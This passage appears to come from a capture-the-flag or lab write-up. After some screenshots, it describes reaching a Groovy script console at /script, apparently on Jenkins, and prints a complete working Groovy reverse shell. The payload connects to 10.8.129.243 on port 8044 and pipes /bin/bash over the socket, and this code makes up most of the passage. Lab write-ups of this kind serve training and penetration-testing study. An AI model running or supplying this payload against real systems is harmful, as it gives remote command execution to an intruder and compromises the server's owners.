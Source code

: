 ![](attachments/20240401085227.png)

Let's test it.

It works

![](attachments/20240401085314.png)

Next up is to get a shell, so we navigate to the `/script` page to access the groovy script console then enter the following reverse shell payload:

```groovy
String host="10.8.129.243";
int port=8044;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
